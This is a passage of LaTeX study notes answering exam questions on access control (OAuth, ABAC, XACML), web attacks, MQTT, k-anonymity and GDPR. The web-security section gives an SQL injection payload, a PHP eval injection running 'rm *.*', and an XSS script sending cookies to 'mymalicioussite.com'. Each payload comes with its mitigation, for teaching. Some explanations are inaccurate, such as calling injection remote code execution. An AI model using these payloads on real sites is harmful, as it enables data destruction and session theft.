		\item \textbf{Authorization Server gives OAuth Token to} the \textbf{Client}.
		\item The \textbf{Client connects} to the \textbf{Resource Server} and \textbf{ask for the resource}, \textbf{giving the OAuth Token}.
		\item If the \textbf{OAuth Token is good} (not expired or not revoked), then \textbf{Resource Server gives the Resource} to the Client.
	\end{enumerate}
	\item The \textbf{entities involved} are:
	\begin{itemize}
		\item \textbf{Resource Owner}: the owner of the resource.
		\item \textbf{Protected Resource}: the resource which Client tries to get (usually in Resource Server).
		\item \textbf{Authorization Server} (and \textbf{not Authentication}): Server that generates OAuth Token.
		\item \textbf{Client} (Third Party App): third party app that is trying to use the resource and ask on behalf of the resource owner.
		\item \textbf{OAuth TOKEN}:
		\begin{itemize}
			\item A key to access specifically some resources;
			\item Generated by Authorization Server;
			\item Opaque for the client, he doesn't know what does it mean;
			\item Clear for the Authorization Server and Resource Server.
		\end{itemize}
	\end{itemize}
\end{itemize}

\newpage

\subsection{Explain what is ABAC and an ABAC policy. What are the advantages of ABAC over RBAC?}
\begin{itemize}
	\item \textbf{ABAC} is \textbf{Attribute Based Access Control}.
	\item \textbf{ABAC} is a model where controls uses \textbf{3 types of attributes}:
	\begin{itemize}
		\item \textbf{Users Attributes}:
		\begin{itemize}
			\item Attributes \textbf{belonging to the User} who is making the request.
		\end{itemize}
		\item \textbf{Resources Attributes}:
		\begin{itemize}
			\item Attributes \textbf{belonging to the Request} needed.
		\end{itemize}
		\item \textbf{Environment Attributes}:
		\begin{itemize}
			\item Attributes which are \textbf{not User Attributes} and \textbf{Resource Attributes}, describing a particular condition of the Enviroment (like geolocation or time).
		\end{itemize}
	\end{itemize}
	\item \textbf{ABAC} is \textbf{composed} of:
	\begin{itemize}
		\item \textbf{Subject}
		\item \textbf{Access Control Mechanism}:
		\begin{itemize}
			\item \textbf{Access Control Policy}: 
			\begin{itemize}
				\item Set of rules that \textbf{uses Attributes} (Subject, Resource and Enviroment ones) to check \textbf{how a resource is protected} under certain conditions.
				\item Subject Attributes.
			\end{itemize}			 
			\item \textbf{Object/Resource Attributes}
			\item \textbf{Enviroment Conditions}
		\end{itemize}
		\item \textbf{Object/Resource}
	\end{itemize}
	\item User ask for a Resource, using Attributes ACPolicy checks if he can have the resource.
	\item While \textbf{RBAC is coarse-grain AC}, \textbf{ABAC is granular-grain AC}:
	\begin{itemize}
		\item \textbf{RBAC}: teachers can access Google.
		\item \textbf{ABAC}: teachers can access Google if they are in class, using school computers and only during school hours.
	\end{itemize}
\end{itemize}

\newpage

\subsection{Define XACML and what is a XACML target, effect, condition, rule policy, policy set. What are XACML policy combining algorithms?}
\begin{itemize}
	\item \textbf{XACML} stands for \textbf{eXtensible Access Control Markup Language} and it's a \textbf{language implementation of ABAC}.
	\item XACML \textbf{uses XML}.
	\item \textbf{XACML Policies structured} like this (to answer this question, choose the appropriate ones):
		\item \textbf{PolicySet}: a set of policies
		\begin{itemize}
			\item \textbf{Target}: Defines the condition that determine whether a policy applies to the request, it defines a Boolean Condition {\tt TRUE} or {\tt FALSE}.
		\item \textbf{Policy}: Set of rules
		\begin{itemize}
			\item \textbf{Target}
			\item \textbf{Rules}:
			\begin{itemize}
				\item \textbf{Target}
				\item \textbf{Effect}: returns {\tt PERMIT} or {\tt DENY}, it's the effect that the rule will have.
				\item \textbf{Conditions}: a \textbf{Rule} is \textbf{satisfied} if it follows the conditions (if they evaluate all {\tt TRUE}).
			\end{itemize}
		\end{itemize} 
		{\noindent\color{gray}\rule{16.5cm}{0.4pt}}
		\item It uses a \textbf{Rule Combining Algorithm}:
		\begin{itemize}
			\item A \textbf{Rule Combining Algorithm} is an algorithm that \textbf{combines rule by their evaluation} using certain criteria, \textbf{setting the policy} to {\tt TRUE} or {\tt FALSE}.
			\item \textbf{Deny Overrides}: {\tt AND} of all rules.
			\item \textbf{Accept Overrides}: {\tt OR}  of all rules.
			\item \textbf{First Applicable}: check the first applicable.
			\item \textbf{Only One Applicable}: if there are more than one applicable, it's indeterminate.
		\end{itemize}
		{\noindent\color{gray}\rule{16.5cm}{0.4pt}}
		\item \textbf{PolicySet}
	\end{itemize}
\end{itemize}

\newpage

\subsection{Draw and describe the XACML architecture and explain the difference between Policy Enforcement Point (PEP) and Policy Decision Point (PDP).}
\begin{itemize}
	\item \textbf{XACML architecture is composed} of:
	\begin{itemize}
		\item \textbf{Subject}
		\item \textbf{Access Control Mechanism}:
		\begin{itemize}
		\item \textbf{PEP}:
		\begin{itemize}
			\item \textbf{Policy Enforcement Point}.
			\item It's the mechanism which provides the protection of the resource. 
			\item This mechanism \textbf{enforce the Access Control}.
		\end{itemize}				
		 
		\item \textbf{PDP}: 
		\begin{itemize}
			\item \textbf{Policy Decision Point}.
			\item This mechanism checks if the policySet is {\tt PERMIT} or {\tt DENY}, using \textbf{Rules Combining Algorithm}. 
			\item It gets the Attributes from \textbf{PIP} and the policy to follow from \textbf{PRP}.
		\end{itemize}				
		
		\item \textbf{PIP}:
		\begin{itemize}
			\item \textbf{Policy Information Point}.
			\item Keeps all the Attributes for the request which is going to be processated.
		\end{itemize}				
		 
		\item \textbf{PRP}: 
		\begin{itemize}
			\item \textbf{Policy Retrieval Point}.
			\item A policy Repository Retrieval.
		\end{itemize}				
		
		\item \textbf{PAP}: 
		\begin{itemize}
			\item \textbf{Policy Administration Point}.
			\item Creates new policy and set them into the Policy Repository (\textbf{PRP}).
		\end{itemize}				
		
	\end{itemize}
		\item \textbf{Object/Resource}
	\end{itemize}
	\item XACML \textbf{flow} is:
	\begin{enumerate}
		\item An user ask for a resource. This goes through ACMechanism, specifically to the \textbf{PEP}.
		\item \textbf{PEP}, using XACML, ask to the \textbf{PDP} if the request {\tt PERMIT} or {\tt DENY}.
		\item \textbf{PEP} checks using \textbf{PIP} and \textbf{PRP} if it follows the policies, evaluating all the rules with \textbf{Rules Combining Algorithm}.
		\item If {\tt PERMIT} returns {\tt PERMIT}; if {\tt DENY} returns {\tt DENY}.
	\end{enumerate}
\end{itemize}
\begin{center}
    
\includegraphics[scale=0.6]{XACML.jpg}
\end{center}

\newpage

\section{Web application security}

\subsection{Define "Web Application Security".}
\begin{itemize}
	\item \textbf{Web App Security} is a branch of \textbf{Information Security} concerning the security of:
	\begin{itemize}
		\item \textbf{WebSites}
		\item \textbf{Web App}
		\item \textbf{Web Services}
	\end{itemize}
\end{itemize}

\subsection{Define "Application Security".}
\begin{itemize}
	\item \textbf{Application Security} encompasses measures \textbf{taken to improve the security} of an \textbf{application} by:
	\begin{itemize}
		\item \textbf{Finding}
		\item \textbf{Fixing}
		\item \textbf{Preventing}
	\end{itemize}
	security \textbf{vulnerabilities}.
\end{itemize}

\subsection{For which kind of security threats found in web applications, TLS is not an adequate countermeasure?}
\begin{itemize}
	\item TLS is not \textbf{adequate for Malware Attacks} and \textbf{Web Attacks}. 
	\item It sustain a nice amount of attacks in the Network Attack scenario (like MITM), but in a Malware Attack the end device is infected and in the Web Attack the Server Device is infected, so TLS can't properly protect the user.
\end{itemize}

\subsection{Which kind of attackers threaten Web Applications?}
\begin{itemize}
	\item The attackers that can hit Web Applications are:
	\begin{itemize}
		\item \textbf{Malware Attacks} (on end device).
		\item \textbf{Network Attacks} (MITM and so on).
		\item \textbf{Web Attacks} (Poisonous website).
	\end{itemize}
\end{itemize}

\subsection{What is a CSRF attack? Give an high level description of how to mount it and the main mitigation measures.}
\begin{itemize}
	\item A \textbf{CSRF attack is a Cross Site Request Forgery} attack.
	\item Suppose we have site {\tt bank.com}, this site uses a simple form {\tt POST} to send money from one to another.
	\item After loggin in, I visit, using another tabs, {\tt sitosicuro.biz}.
	\item {\tt sitosicuro.biz} using background JS ({\tt AJAX}), as soon as I visit the webpage, is sending a {\tt POST} \textbf{request} to {\tt bank.com} to pay Mario Rossi with 100k.
	\item The browser, \textbf{using JS and my authentication Cookie}, \textbf{will send the request} and the website will transfer money from my account to Mario Rossi account, without even noticing.
	\item A possibile \textbf{mitigation} is inserting a \textbf{one-time token} in the {\tt FORM POST} request in the {\tt bank.com} site.
	\item This eludes \textbf{Same Origin Policy} because it won't read data, it's sending data from another website.
\end{itemize}


\subsection{What is an injection attacks? Give at least two examples and the main mitigation measures.}
\begin{itemize}
	\item An \textbf{injection attack} is a \textbf{remote code execution} type of attack.
	\item Two main examples are:
	\begin{itemize}
		\item \textbf{SQL Injection}:
		\begin{itemize}
			\item This vulnerabilities \textbf{executes} {\tt SQL} \textbf{while evaluating} the query.
			\item Suppose we have:
\begin{lstlisting}[language=SQL, xrightmargin=0.07\textwidth]
	SELECT * 
	FROM USER 
	WHERE username='admin' and password="$_GET['pass']";
\end{lstlisting}
			\item In the password input form we are going to type:
\begin{lstlisting}[language=SQL]
	" OR 1=1;--
\end{lstlisting}
			\item This will become:
\begin{lstlisting}[language=SQL, xrightmargin=0.1\textwidth]
	SELECT * 
	FROM USER 
	WHERE username='admin' and password="" OR 1=1;--;
\end{lstlisting}
			\item Evaluating to {\tt TRUE} and \textbf{logging as an admin}.
			\item A possible \textbf{mitigation} is using \textbf{prepared statement} and \textbf{sanitizing the input before executing} (escaping characters, removing 'OR',...)
		\end{itemize}
		\item \textbf{PHP Eval Injection}:
		\begin{itemize}
			\item This vulnerabilities uses the {\tt eval()} function in {\tt PHP}, which evaluates {\tt PHP} code.
			\item Having a simple calculator that uses {\tt eval()}:
\begin{lstlisting}[language=PHP]
	<?php
		$in=$_GET['calc'];
		eval('$result= '+$in+';');
	?>
\end{lstlisting}
			\item And a website: {\tt http://site.com/calc=10+1}
			\item We can exploit this like that: {\tt http://site.com/calc=10+1;system("rm *.*")}
			\item This will execute:
\begin{lstlisting}[language=PHP, xrightmargin=0.13\textwidth]
	<?php
		$in=$_GET['calc']; //10+1;system("rm *.*")
		eval('$result= '+$in+';'); //eval 
		($result = 10+1;system("rm *.*"););
	?>
\end{lstlisting}
		\end{itemize}
	\end{itemize}
	\item The \textbf{main mitigation} for both scenario is \textbf{using} a strong \textbf{Access Control Policy}.
\end{itemize}

\newpage

\subsection{What is an XSS attack? How it's related to the Same Origin Policy? Give an high level description of how to mount it and the main mitigation measures.}
\begin{itemize}
	\item An XSS attack is a \textbf{Cross Site Scripting Attack}.
	\item Suppose we have {\tt site.com/search.php?q=}
	\begin{itemize}
		\item This website, whatever I type in to search, is going to write:
\begin{lstlisting}[language=PHP, numbers=none]
	<?php
    	echo "Here your result for" + $_GET['q'];
	?>
\end{lstlisting}
		\item Here I can type:
\begin{lstlisting}[language=PHP, numbers=none, xrightmargin=0.08\textwidth]
	<script>
		window.open("http://mymalicioussite.com/?cookie=" + document.cookie)
	</script>
\end{lstlisting}
		\item If it works, I'll \textbf{send my authentication Cookie to another website}.
		\item I can give this link :
\begin{lstlisting}[language=PHP, numbers=none, xrightmargin=0.08\textwidth]
	site.com/search.php?q = 
		<script>
			window.open("http://mymalicioussite.com/?cookie=" + document.cookie)
		</script>
\end{lstlisting}
	to someone and \textbf{steal his/her Cookies}! 
	\end{itemize}
	\item This can be \textbf{mitigated by}:
	\begin{itemize}
		\item \textbf{replacing} {\tt $<$} with {\tt \&lt};
		\item \textbf{sanitizing and removing all tags} (or only the dangerous one) \textbf{from} the \textbf{input}.
	\end{itemize}		
	\item This attack eludes the \textbf{Same Origin Policy} because it's a {\tt <script>} \textbf{executed in the same page} so it has the \textbf{same origin} and it's the page itself sending data outside.
\end{itemize}

\newpage

\subsection{What is a phishing attack? Give an high level description of how to mount it and the main mitigation measures.}
\begin{itemize}
	\item A \textbf{phishing attack }is an attack which \textbf{consist} in letting an unsuspecting user \textbf{visit a fake/malicious website}, \textbf{copying a true website}, \textbf{to steal personal information} (like login, password, codice fiscale, etc.).
	\item To make this attack, our user Giulio receives a mail from Paypal.
	\item This email is equal to a true Paypal mail.
	\item This email uses real Paypal embedded images, with real links.
	\item This email have a big button which is saying {\tt "Reset your password"}.
	\item Pressing this, Giulio gets redirected to: {\tt https://paypaI.com} ({\tt paypaI.com} $\neq$ {\tt paypal.com}, $I\ne l$).
	\item The page does spoofing, having the same {\tt STYLE/HTML} of the original login page. 
	\item When Giulio put his login to this fake site, the website redirects Giulio to the true Paypal Website, but keeps the login information for itself (and store them for the hacker).
	\item A possible \textbf{mitigation is checking Certificates}:
	\begin{itemize}
		\item Having \textbf{{\tt HTTPS} doesn't mean it's the true website}, we have to \textbf{check} if the \textbf{website certificate is original} and it's referring to the true website.
		\item Certification Authorities should avoid creating certificates with similar names ({\tt paypal.com} and {\tt paypaI.com}).
		\item We can also \textbf{raise awareness} to help people not getting phished.
	\end{itemize}
	\item If we are the \textbf{website who got cloned}:
	\begin{itemize}
		\item We should notice a spike of:
		\begin{itemize}
			\item Changing Password
			\item Moving Funds
			\item Password Reset
			\item Image GET Requests
		\end{itemize}
		\item We should \textbf{put private information} (like User ID or name and surname) \textbf{into mail} we are sending.
		\item This \textbf{prevents phishing but it doesn't prevent Spear Phishing} (Phishing focused to one or more users using their private information to make the request seems legit).
	\end{itemize}
\end{itemize}

\subsection{What is MQTT? Explain its security issues.}
\begin{itemize}
	\item \textbf{MQTT} stands for \textbf{Message Queue Telemetry Trasport} and it's a \textbf{Publish Subscribe Protocol} with design principles:
	\begin{itemize}
		\item \textbf{Minimize Network bandwith}
		\item Consider small set of device resource requirements
		\item \textbf{Ensure reliability with Quality of Service}:
		\begin{itemize}
			\item QoS from 0 to 2: higher is the number, more acknowledgements will be exchanged.
		\end{itemize}
		\item It has:
		\begin{itemize}
			\item \textbf{Publisher};
			\item \textbf{Subscriber};
			\item \textbf{Centralized Broker};
			\item \textbf{Topic to get subscribed}.
		\end{itemize}
		\item \textbf{Security Issue}:
		\begin{itemize}
			\item There is \textbf{no security implementation} in the base protocol because of its lightweight design, so it uses TLS/SSL (and adds overhead).
			\item \textbf{Authentication} can be \textbf{set}, \textbf{but} it's \textbf{sent in PlainText} (without SSL/TLS).
			\item \textbf{Authentication doesn't have} something to \textbf{limit login attempts}, so it's possible to \textbf{bruteforce}.
			\item We can subscribe to all the user topic with \#, we can subscribe to all system topic with {\tt \$SYS/\#}
			\item This can lead to problems if I try to publish in {\tt SYS} channel or other channel used by IoT system, such as fire alarms.
		\end{itemize}	
	\end{itemize}
\end{itemize}

\subsection{Explain the publish-subscribe pattern.}
\begin{itemize}
	\item The \textbf{Publish Subscribe} pattern is an \textbf{alternative pattern to the Client-Server pattern}, used in IoT (M2M) devices.
	\item The \textbf{Publish Subscribe pattern} is:
	\begin{itemize}
		\item \textbf{Many To Many}: I can have more than one producer that sends to more than one consumer;
		\item \textbf{Space Decoupling}: Publisher and Subscriber doesn't need to know each other to exchange events;
		\item \textbf{Time Decoupling}: Publisher and Subscriber doesn't need to be up at the same time to exchange the event;
		\item \textbf{Sync Decoupling}: Publisher and Subscriber doesn't need to be synchronized to exchange events;
		\item \textbf{Support of both Pull and Push} Interactions.
	\end{itemize}
	\item There are \textbf{3 main entities}:
	\begin{itemize}
		\item \textbf{Publisher}: publish events.
		\item \textbf{Subscriber}: subscribe to a topic to get. events;
		\item \textbf{Broker/Event Notification Services/Mediator}: notify the subscriber of a topic about a new event.
	\end{itemize}
	\item It can be:
	\begin{itemize}
		\item \textbf{Centralized}
		\item \textbf{Distribuited}: more \textbf{scalable}.
	\end{itemize}
	\item Everybody knows an \textbf{event-schema}, a definite set of \textbf{fields}, with a name and a type.
	\item A \textbf{subscription} is a \textbf{constraint} expressed on the event schema.
	\item The \textbf{ENS/Broker} will notify the subscriber if and only if event e matches subscribers.
	\item To match, the subscriber \textbf{must be subscribed} to that topic.
	\item The flow is simple:
	\begin{enumerate}
		\item A subscriber \textbf{subscribe to a topic}, \textbf{telling it to the Broker}.
		\item A publisher \textbf{publish} an event to a \textbf{topic}, \textbf{sending the event to the Broker}.
		\item The broker \textbf{notify all the subscriber} of that particular topic, as soon as they are up.
	\end{enumerate}
	\item There are different approaches, these are the two main approaches:
	\begin{itemize}
		\item \textbf{Topic-Based}:
		\begin{itemize}
		\item we have a topic based subscription, a subscriber follow a topic and gets all the notification of that topic.
		\end{itemize}
		\item \textbf{Hierarchy-Based}: 
		\begin{itemize}
			\item as the topic based, but with nested topic.
			\item If you subscribe to a topic, you'll get also \textbf{all the sub-tree notification}.
		\end{itemize}
	\end{itemize}
\end{itemize}

\newpage

\section{Privacy and Data protection}

\subsection{Define the notion of privacy. What is k-anonimity?}
\begin{itemize}
	\item \textbf{Privacy means}:
	\begin{itemize}
		\item Having \textbf{full control of all personal informations}.
		\item High level of \textbf{difficulty} to \textbf{create correlations} between \textbf{data/actions}.
	\end{itemize}
	\item \textbf{K-Anonimity} is a \textbf{mitigation} model to a \textbf{linkage attack}.
	\item If we have $k$ individuals, we shouldn't be able to recognize each one of them to the other $k-1$ .
	\item This is achieved by \textbf{Data Generalization} on quasi-identifier, for example:
	\begin{itemize}
		\item We have no key identifier, two quasi-identifier (Sex, Year) and one sensitive information (Disease):
		\begin{center}
			\begin{tabular}{| C{1cm} | C{5cm} | C{5cm} | C{5cm} |}
			\hline
 			\textbf{Sex} & \textbf{Year} & \textbf{Disease} \\  \hline
 			M & 1961 & Cancer \\
 			M & 1965 & Heart Disease \\
 			\hline
			\end{tabular}
		\end{center}
		\item This can be \textbf{generalized} by doing:
		\begin{center}
			\begin{tabular}{| C{1cm} | C{5cm} | C{5cm} | C{5cm} |}
			\hline
 			\textbf{Sex} & \textbf{Year} & \textbf{Disease} \\  \hline
 			M & 196* & Cancer \\
 			M & 196* & Heart Disease \\
 			\hline
			\end{tabular}
		\end{center}
		\item We must \textbf{avoid suppression}: Generalization causes too much \textbf{loss of information}.
		\item This can be attacked by using:
		\begin{itemize}
			\item \textbf{Homogeneity attack}: in the previous example, \textbf{if they had the same disease}, \textbf{that generalization was worthless}.
			\item \textbf{Background Knowledge Attack}: knowing something about the subject (background knowledge).
		\end{itemize}
	\end{itemize}
\end{itemize}

\subsection{What is LINDDUN? Define also linkability and identifiability.}
\begin{itemize}
	\item \textbf{LINDDUN} is a \textbf{privacy threat modeling methodology} that supports analysts in mitigating privacy threats in software architectures. It's an \textbf{acronym} of:
	\begin{itemize}
		\item \textbf{Linkability}: 
		\begin{itemize}
			\item Being able to distinguish a correlation between two item of interest.
			\item This leads to \textbf{Identifiability} and \textbf{Inference} (discrimination).
		\end{itemize}		
		\item \textbf{Identifiability}:
		\begin{itemize}
			\item Being able to identify a subject within a set of subject.
			\item This leads to \textbf{Privacy Concern}.
		\end{itemize}
		\item \textbf{Non Repudiation}: 
		\begin{itemize}
			\item Not being able to repudiate an accuse, an attacker can prove something that has been done or know by a subject.
			\item This leads to \textbf{persecution/detention}.
		\end{itemize}		
		\item \textbf{Detectability}: 
		\begin{itemize}
			\item Being able to distinguish the existence of the item of interest within a set.
			\item This leads to \textbf{Information Disclosure}.
		\end{itemize}		
		\item \textbf{Disclosure of information}:
		\begin{itemize}
			\item Violation of Confidentiality.
		\end{itemize}
		\item \textbf{Unawareness}:
		\begin{itemize}
			\item Not being aware of what sharing some informations could cause.
			\item This leads to \textbf{more linkability}.
		\end{itemize}		
		\item \textbf{Non compliance}: 
		\begin{itemize}
			\item Not following the privacy regulations.
			\item This leads to \textbf{bad reputation} and \textbf{fines}.
		\end{itemize}	
	\end{itemize}
\end{itemize}

\subsection{Why does the GDPR propose a risk-based approach to data protection?}
\begin{itemize}
	\item To \textbf{best assess} and \textbf{mitigate} the company and users top risks under GDPR.
\end{itemize}

\subsection{What is the difference between the risk evaluated for an organization and the risk of a data processing activity in the GDPR?}
\begin{itemize}
	\item The risk of a data processing activity in the GDPR should consider the subject risks and not the company ones.
	\item For example, a single stolen data record has minimal impact to a data controller, but can have tragic consequences for its subject: 
		\begin{itemize}
			\item the risk should be high because the subject point of view prevails.
		\end{itemize}
\end{itemize}

\subsection{Explain how a violation of confidentiality and one of integrity can lead to a “risk to the rights and freedoms” of the data subject.}
\begin{itemize}
	\item A \textbf{violation of confidentiality} can lead to unintended \textbf{disclosure of personal information}. For example, ethnicity or sexual orientation disclosure can lead to discriminations.
	\item A \textbf{violation of integrity} can lead to \textbf{wrong data associated to an user}, for example someone poor could loose tax reductions because his annual income record has been violated and modified.
\end{itemize}

\subsection{What is the likelihood of an event? What is the impact of an event? What is the risk of an event? What is the risk matrix?}
\begin{itemize}
	\item \textbf{Likelihood}: 
	\begin{itemize}
		\item the \textbf{probability that an adverse event will occur} in the system.
		\item  Can be expressed as: $$[\text{Pr. exploitable weakness in the system}] \times [\text{Pr. weakness is exploited}]$$
	\end{itemize}	
	\item \textbf{Impact}:
	\begin{itemize}
		\item effects of an adverse event on an IT asset in terms of losses in Confidentiality, Integrity and Availability.
	\end{itemize}
	\item \textbf{Risk}: 
	\begin{itemize}
		\item measures how much a system is vulnerable to adverse events.
		\item It's expressed as: $$[\text{Likelihood of adverse event}] \times [\text{Impact of adverse event}]$$
	\end{itemize}
	\item \textbf{Risk matrix}:
	\begin{itemize}
		\item is a matrix that has a 5 to 1 scale of likelihood as rows and an 1 to 5 scale of consequences as columns. 
		\item Inside the matrix there is the product of the corresponding likelihood and consequences.
		\item It's expressed as: $$[\text{Likelihood of adverse event}] \times [\text{Impact of adverse event}]$$
		\item A vulnerability risk can be evaluated inside the matrix: [1 to 4] is good, [4 to 10] is worrying, [above 10] is an unacceptable risk.
	\end{itemize}
\end{itemize}

\newpage

\subsection{What is the scope of application of the GDPR? Who is the data controller? Who is the data processort? What is the Data Subject? What is the Data Protection Impact Assessment?}
\begin{itemize}
	\item The \textbf{GDPR covers all EU citizens' data} regardless of where the organization collecting the data is located. It's a \textbf{regulation that aims privacy} and \textbf{data protection of citizens}.
	\item \textbf{Data controller}:
	\begin{itemize}
		\item the person or company which handle data of data subjects, determining the purposes and means of its processing.
		\item They \textbf{aren't owners of the data}.
	\end{itemize}		
	\item \textbf{Data subject}: 
	\begin{itemize}
		\item the \textbf{user of the system}, the only proprietary of his data that gives to data controllers the explicit consent to process it for explicit goals.
		\item He can revoke his consent at any time.
	\end{itemize}	
	\item \textbf{Data Processor}: 
	\begin{itemize}
		\item the person or company that which \textbf{process data} on behalf of the controller.
	\end{itemize}	
	\item \textbf{DPIA}: 
	\begin{itemize}
		\item a \textbf{document} that must be produced before the system deploy and updated during its lifetime.
		\item It guarantees that the risk to the rights and freedom of the system users is minimal
	\end{itemize}
\end{itemize}

\subsection{What is data protection?}
\begin{itemize}
	\item \textbf{Data protection} is a broad theme and include:
	\begin{itemize}
		\item \textbf{safeguarding data};
		\item \textbf{getting consent} from the person whose data is being collected;
		\item \textbf{identifying the regulations} that apply to the organization in question and the data it collects;
		\item \textbf{ensuring employees are fully trained} in the nuances of data privacy and security.
	\end{itemize}
\end{itemize}

\end{document}
